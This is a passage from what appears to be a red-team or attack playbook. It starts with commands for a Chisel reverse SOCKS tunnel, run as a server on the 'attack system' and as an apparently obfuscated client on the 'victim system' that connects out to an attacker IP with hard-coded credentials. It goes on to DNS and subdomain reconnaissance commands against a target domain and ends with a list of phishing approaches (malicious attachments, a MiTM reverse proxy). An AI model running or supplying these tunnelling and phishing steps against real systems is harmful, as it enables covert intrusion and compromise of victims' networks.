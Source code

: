#### Execute SOCKS Proxy

Start the server on the attack system and the client on the victim system:

```
# server - copy the 'fingerprint'
$ ./chisel-linux_amd64 server -p 443 --reverse --socks5 --auth docevil:s0m3p@ssw0rd

# client - input 'fingerprint'
$ ./chisel_garble-cli.exe client --auth docevil:s0m3p@ssw0rd --fingerprint 'zbj1w+...' 1.2.3.4:443 R:socks
```

---

## 2. Reconnaissance

### DNS

Enum target domain.

```
# hosted
$ dig vault.io
x.x.x.x
x.x.x.x

# IP info
$ whois x.x.x.x
```

Hunt subdomains.

```
# use dnscan
$ python3 dnscan.py -d vault.io -w subdomains-1000.txt
[*] Processing domain vault.io
[*] Using system resolvers ['192.168.168.2']

[+] Getting nameservers
x.x.x.x - adi.ns.cloudflare.com
x.x.x.x - adi.ns.cloudflare.com
[...]
```

#### Resources
- https://github.com/rbsec/dnscan
- https://github.com/tomnomnom/assetfinder

### Phishing

Common options:
- mal attachment
- link to mal doc
- link to MiTM reverse http proxy
